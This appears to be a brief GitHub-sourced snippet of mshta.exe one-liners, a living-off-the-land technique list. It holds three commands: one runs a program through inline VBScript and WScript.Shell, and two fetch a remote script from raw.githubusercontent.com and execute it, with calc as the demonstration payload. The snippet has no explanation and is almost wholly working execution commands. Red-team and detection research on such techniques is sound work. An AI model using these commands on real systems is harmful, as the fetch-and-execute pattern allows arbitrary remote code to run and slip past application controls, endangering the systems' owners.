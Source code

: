 `mshta.exe javascript:"<script/language=vbscript>createobject(\"WScript.Shell\").run(\"calc\")</script>"`
<br><br>
`mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js").Exec();close();`
<br><br>
`mshta.exe vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js"")"))`
